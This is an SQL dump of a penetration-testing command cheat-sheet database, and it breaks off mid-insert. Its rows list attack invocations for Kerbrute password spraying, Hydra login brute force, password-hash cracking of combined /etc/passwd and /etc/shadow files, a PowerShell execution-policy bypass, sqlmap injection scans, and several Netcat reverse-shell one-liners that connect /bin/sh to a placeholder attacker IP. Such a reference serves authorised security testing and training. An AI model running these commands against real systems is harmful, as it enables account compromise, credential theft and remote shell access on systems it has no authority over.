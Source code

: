-- -- File generated with SQLiteStudio v3.2.1 on Sun Feb 7 14:58:28 2021 -- -- Text encoding used: System -- PRAGMA foreign_keys = off; BEGIN TRANSACTION;  -- Table: Commands CREATE TABLE Commands (Command_No INTEGER PRIMARY KEY AUTOINCREMENT NOT NULL, Name TEXT REFERENCES Programs (Name) NOT NULL, Description TEXT NOT NULL, Command TEXT, File BLOB); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (1, 'Kerbrute', 'brute single user password', 'kerbrute bruteuers [flags]', NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (2, 'Kerbrute', 'brute username:password combos from file or stdin', 'kerbrute brutforce [flags]', NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (3, 'Kerbrute', 'test a single password agains a list of users', 'kerbrute passwordspray [flags]', NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (4, 'Kerbrute', 'Enumerate valid domain usernames via kerberos', 'kerbrute userenum [flags]', NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (5, 'Name-That-Hash', 'Find the hash type of a string', 'nth --text ''&lt;hash>''', NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (6, 'Name-That-Hash', 'Find the hash type of a file', 'nth --file &lt;hash file>', NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (7, 'Nmap', 'scan for vulnerabilites', 'nmap --script vuln &lt;HOST_IP>', NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (8, 'Nikto', 'Scan host for vulnerabilites', 'nikto -h &lt;HOST_IP>', NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (9, 'SMBClient', 'check for misconfigured anonymous login', 'smbclient -L \\\\&lt;HOST_IP>', NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (10, 'Hydra', 'Brutforce a webpage looking for usernames', 'hydra -l &lt;user wordlist> -p 123 &lt;HOST_IP> http-post-form ''/wp-login.php:log=^USER^&amp;pwd=^PASS^&amp;wp-submit=Log+In:F=&lt;output string on failure>', NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (11, 'SMBMap', 'enumerates SMB file shares', 'smbmap -u &lt;user> -p &lt;pass> -H &lt;host IP>', NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (12, 'WPScan', 'Enumerate Wordpress website', 'wpscan --url &lt;wp site> --enumerate --plugins-detection', NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (13, 'WPScan', 'enumerate though known usernames', 'wpscan --url &lt;HOST_IP> --usernames &lt;USERNAME_FOUND> --passwords wordlist.dic', NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (14, 'PowerShell', 'bypass execution policy', 'powershell.exe -exec bypass', NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (15, 'TheHarvester', 'gathering informaiton from online sources', 'theharvester -d &lt;domain> -l &lt;#> -g -b google', NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (16, 'Netcat', 'open a listener', 'nc -lvnp &lt;port #>', NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (17, 'Netcat', 'Connect to computer', 'nc &lt;attacker ip> &lt;attacker port>', NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (18, 'GoBuster', 'Eunmerate directories on a website with a cookie', 'gobuster dir -u http://&lt;IP> -w &lt;wordlist> -x &lt;extention> -c PHPSESSID=&lt;cookie val>', NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (19, 'SQLMap', 'map sql at an IP', 'sqlmap -r &lt;IP> --batch --force-ssl', NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (20, 'John the Ripper', 'Use wordlist to parse hash', 'john &lt;HASHES_FILE> --wordlist=&lt;wordlist>', NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (21, 'John the Ripper', 'unencrypt shadow file', 'john &lt;Unshadowed passwds>', NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (22, 'Unshadow', 'combine /etc/passwd and /etc/shadow file for cracking', 'unshadow &lt;passwd> &lt;shadow>', NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (23, 'Hashcat', 'crack hashes with a wordlist', 'hashcat -m &lt;hash type> -a 0 -o &lt;output file> &lt;hash file> &lt;wordlist> --force', NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (26, 'Enum4Linux', 'basic command', 'enum4linux -a &lt;IP>', NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (27, 'SMBClient', 'connect to a SMB share', 'smbclinet //&lt;IP>/&lt;share> -U &lt;username>', NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (28, 'Netcat', 'connect with shell (-e doest always work)', 'nc -e /bin/sh &lt;ATTACKING-IP> 80', NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (29, 'Netcat', 'connect with shell (-e doest always work)', '/bin/sh | nc ATTACKING-IP 80', NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (30, 'Netcat', 'done on the target', 'rm -f /tmp/p; mknod /tmp/p p &amp;&amp; nc ATTACKING-IP 4444 0/tmp/p', NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (31, 'SQLMap', 'Check form for SQL injection', 'sqlmap -o -u "http://meh.com/form/" –forms', NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (32, 'SQLMap', 'automated SQL scan', 'sqlmap -u &lt;URL> --forms --batch --crawl=10 --cookie=jsessionid=54321 --level=5 --risk=3', NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (33, 'CrackMapExec',